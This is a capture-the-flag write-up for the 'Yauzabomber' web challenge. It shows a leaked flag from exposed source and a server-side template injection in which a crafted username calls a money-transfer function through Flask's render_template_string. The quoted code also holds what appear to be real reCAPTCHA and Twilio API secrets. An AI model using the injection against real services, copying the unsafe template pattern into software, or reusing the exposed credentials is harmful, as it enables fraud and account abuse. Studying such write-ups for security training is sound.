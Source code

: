 # Yauzabomber

## Description

http://tasks.yauzactf.com:30003/

Your task is to learn a new service for fast sending messages at

## Solution

### Unintended

The `.git` directory and source ode was exposed. In `app.py`, the flag is exposed.

```python
@app.route("/shop/", methods=['POST'])
@require_authorization
def shop_form(current_user):
    item_id = int(request.form.get('id'))
    user_obj, item_obj = db.ShopItem().buy_item(item_id, current_user.id)
    shop_items = db.ShopItem().list_items()

    if user_obj is None:
        return render_template("shop.html", shop_items=shop_items, error=1)

    if item_obj.phone == '+7777-(777)-777777':
        db.User().delete_login(current_user.login)
        return render_template("shop.html", shop_items=shop_items, flag='YauzaCTF{$M$_B000mb3r_$$t1_vu1n}')

    return render_template("shop.html", shop_items=shop_items, success=1)
```

### Intended

There is a vulnerability in the "new chat" feature.

```python
@app.route("/new_chat/", methods=['POST'])
@require_authorization
def new_chat(current_user):
    phone = str(request.form.get('phone'))
    message = str(request.form.get('message'))
    recaptchaResponse = str(request.form.get('g-recaptcha-response'))

    r = requests.post('https://www.google.com/recaptcha/api/siteverify',
                      data={
                          'secret': '6LcFLRccAAAAAJGO9V52-YxMiXkrKLmT4GBp9Ysf',
                          'response': recaptchaResponse,
                          'remoteip': '127.0.0.1',
                      })
    a = request.form
    j = r.json()

    if 'success' in j and j['success']:
        if not phone.startswith('+1337') and not phone.startswith('1337'):
            # sms message
            result = sms.send_sms(number='+' + re.sub("[^0-9]", "", phone), message=message, login=current_user.login, vulnfunc=db.User().add_money_to_login)
            if result:
                db.Message().send_sms(current_user, phone, message)
        else:
            # chat private message
            db.Message().send_private(current_user, phone, message)

    return redirect('/private/')
```

When sending an SMS to a number that does not begin with `+1337` or `1337`, the `send_sms` function in `sms.py` is called, with the keyword argument `vulnfunc=db.User().add_money_to_login`.

In the `send_sms` function, Flask's `render_template_string` function is used to generate the SMS message.

```python
def send_sms(number, message, login, vulnfunc):
    try:
        message = render_template_string('Hello from ' + login + ':\n{{ message }}', message=message, add_money_to_login=vulnfunc)
    except Exception as e:
        message = str(e)
    print(message)
    message = message[:160]
    r = requests.post(
        'https://api.twilio.com/2010-04-01/Accounts/AC8af1c9ea60578bbf05fcc8073785601d/Messages.json',
        data={
            'To': number,
            'MessagingServiceSid': 'MG2361073db2b525645c80023fbf791ff8',
            'Body': message
        },
        auth=HTTPBasicAuth('AC8af1c9ea60578bbf05fcc8073785601d', '43b98a2b0de062483f43e938112d9aa0')
    )
    print(number)
    j = r.json()
    print(j)
    return j['status'] == 'accepted' and not j['error_code']
```

The resulting template is user-controllable, since `login` is our username.

```python
'Hello from ' + login + ':\n{{ message }}'
```

We can then exploit Server-Side Template Injection \(SSTI\). Since the `add_money_to_login` function is added to the template context, we can manipulate the `login` variable to invoke this function. We essentially need two accounts, with one of the usernames being:

```python
{{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}
```

![](../.gitbook/assets/upload_1a3560d2825112a36522ddfecb9b5b1c.png)

Then, when sending an SMS message, the following is called:

```python
render_template_string(
    'Hello from {{ add_money_to_login(USERNAME, AMOUNT_OF_MONEY) }}:\n{{ message }}', 
    message=message, 
    add_money_to_login=vulnfunc
)
```

When rendering the template, the `add_money_to_login` function is called, adding money to our other account.

![](../.gitbook/assets/upload_8ef68bbab074e004b0c4c3a59ef8d74a.png)

Now that we have sufficient money, we can buy the flag!

![](../.gitbook/assets/upload_170e466c6e5c955c491187bcd70bd2c3.png)

